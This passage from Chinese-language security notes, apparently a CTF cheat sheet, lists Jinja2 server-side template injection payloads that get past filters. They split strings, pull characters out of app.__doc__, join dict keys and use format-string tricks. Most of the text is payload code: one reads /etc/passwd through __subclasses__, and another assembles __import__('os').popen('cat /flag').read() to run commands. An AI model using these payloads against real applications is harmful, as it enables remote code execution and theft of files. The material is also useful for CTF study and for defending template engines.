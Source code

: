 - 字符串拼接绕过

```python
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

- 利用dict拼接

```python
{% set a=dict(o=x,s=xx)|join %}
```

- 利用string
- 比如 `'` 可以用下面方式拿到并存放在 `quote` 中
```python
{% set quote = ((app.__doc__|list()).pop(337)|string())%}
类似的还有
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set xhx = (({ }|select()|string()|list()).pop(24)|string())%}
```

- 通过 `~` 可以将得到的字符连接起来
- 例如一个 eval 的 Payload

```python
{% set xhx = (({ }|select()|string|list()).pop(24)|string)%}
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set quote = ((app.__doc__|list()).pop(337)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set bu = dict(buil=x,tins=xx)|join %}
{% set im = dict(imp=x,ort=xx)|join %}
{% set sy = dict(po=x,pen=xx)|join %}
{% set oms = dict(o=x,s=xx)|join %}
{% set fl4g = dict(f=x,lag=xx)|join %}
{% set ca = dict(ca=x,t=xx)|join %}
{% set ev = dict(ev=x,al=xx)|join %}
{% set red = dict(re=x,ad=xx)|join%}
{% set bul = xhx*2~bu~xhx*2 %}
{% set payload = xhx*2~im~xhx*2~lb~quote~oms~quote~rb~pt~sy~lb~quote~ca~sp~slas~fl4g~quote~rb~pt~red~lb~rb %}
```

- Python3 对 Unicode 的 Normal 化，导致 exec 可以执行 unicode 代码

<img src="https://pic.imgdb.cn/item/6139ce6f44eaada739f4aef2.png" alt="">

- Python 的格式化字符串特性

```python
{{""['{0:c}'['format'](95)+'{0:c}'['format'](95)+'{0:c}'['format'](99)+'{0:c}'['format'](108)+'{0:c}'['format'](97)+'{0:c}'['format'](115)+'{0:c}'['format'](115)+'{0:c}'['format'](95)+'{0:c}'['format'](95)]}}
```
